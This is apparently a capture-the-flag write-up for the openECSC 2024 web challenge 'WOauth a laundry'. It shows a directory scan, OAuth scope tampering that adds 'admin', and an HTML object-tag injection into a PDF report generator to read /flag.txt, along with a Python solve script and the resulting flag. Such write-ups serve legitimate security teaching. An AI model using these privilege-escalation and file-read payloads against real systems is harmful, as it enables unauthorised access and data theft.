 # WOauth a laundry!

## Description
```
Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses.

Flag is in /flag.txt.

Site: http://woauthalaundry.challs.open.ecsc2024.it
```

## Writeup

Starting off, I took a look at the website itself which didn't reveal a lot. <br/>
Finding nothing, I started a directory scan onto the website. <br/>
```sh
$ ffuf -w ./Tools/wordlists/wordlists/discovery/common.txt -u http://woauthalaundry.challs.open.ecsc2024.it/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://woauthalaundry.challs.open.ecsc2024.it/FUZZ
 :: Wordlist         : FUZZ: /home/aryt3/Tools/wordlists/wordlists/discovery/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 200, Size: 4615, Words: 254, Lines: 39, Duration: 2291ms]
api                     [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 833ms]
:: Progress: [4613/4613] :: Job [1/1] :: 53 req/sec :: Duration: [0:01:35] :: Errors: 0 ::
```

Using `burpsuite`, I than continued to login to the platform. <br/>
Accessing the `/admin` webpage I tried to `generate a report` which only returned a `401` status code which means unauthorized. <br/>
Knowing that I didn't have sufficient permissions I took a closer look at the login function. <br/>

Intercepting the login request in burpsuite reveals a lot of parameters. <br/>
```sh
GET /openid/authentication?response_type=token%20id_token&client_id=ELX4Gr0HSRZx&scope=openid%20laundry%20amenities&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce HTTP/1.1
Host: woauthalaundry.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: */*
Referer: http://woauthalaundry.challs.open.ecsc2024.it/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

Intercepting the request I was trying to tamper with the scope. <br/>
After adding `%20admin` to the scope, I discovered that I was granted authorization to access the `/admin` endpoint. <br/>

Accessing the `/admin` webpage I obtained these endpoint specifications. <br/>
```json
{
    "admin_endpoints": [
        {
            "exampleBody": { "requiredBy":"John Doe" },
            "methods": ["POST"],
            "path": "/generate_report"
        }
    ]
}
```

Seeing these specifications and the available endpoint I sent a request to generate a report via burpsuite. <br/>
```sh
POST /api/v1/generate-report HTTP/1.1
Host: woauthalaundry.challs.open.ecsc2024.it
Content-Length: 28
Authorization: Bearer d8a953f5e7924c46a0bb98807a45512b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://woauthalaundry.challs.open.ecsc2024.it
Referer: http://woauthalaundry.challs.open.ecsc2024.it/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
 "requiredBy":"John Doe"
}
```

The generated report did include `Report required by: John Doe`. <br/>
Knowing that I was able to inject something into the PDF I now only had to find a way to link the content of `/flag.txt` into the `.pdf` file. <br/>
Doing this with `javascript` is fairly easy as I just need to create an `object` and pass `flag.txt` as object-content. <br/>
```
POST /api/v1/generate-report HTTP/1.1
Host: woauthalaundry.challs.open.ecsc2024.it
Content-Length: 28
Authorization: Bearer d8a953f5e7924c46a0bb98807a45512b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://woauthalaundry.challs.open.ecsc2024.it
Referer: http://woauthalaundry.challs.open.ecsc2024.it/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
 "requiredBy":"<object data='/flag.txt'></object>"
}
```

For higher efficiency I made a python script to automatically retrieve the flag. <br/>
```py
import re, requests, PyPDF2

base_URL = 'http://woauthalaundry.challs.open.ecsc2024.it/'

headers = {
    'Authorization': 'Bearer d8a953f5e7924c46a0bb98807a45512b',
}

payload = {
    'requiredBy': '<object data="/flag.txt"></object>'
}

response = requests.post(f'{base_URL}api/v1/generate-report', json=payload, headers=headers)


if response.status_code == 200:

    with open('out.pdf', 'wb') as file:
        file.write(response.content)

    with open('out.pdf', 'rb') as pdf_file:

        pdf_reader = PyPDF2.PdfFileReader(pdf_file)

        pdf_text = ''
        for page_num in range(pdf_reader.numPages):
            page = pdf_reader.getPage(page_num)
            pdf_text += page.extractText()

    pdf_text = pdf_text.replace('\n', '')

    openECSC_match = re.search(r'openECSC{([^}]*)}', pdf_text)

    if openECSC_match:
        openECSC_item = openECSC_match.group(0)
        print(openECSC_item)
```

Executing the python script reveals the flag. <br/>
```sh
$ python3 solve.py 
openECSC{On3_l4uNdrY_70_ruL3_7h3m_4l1!_d208a530}
```

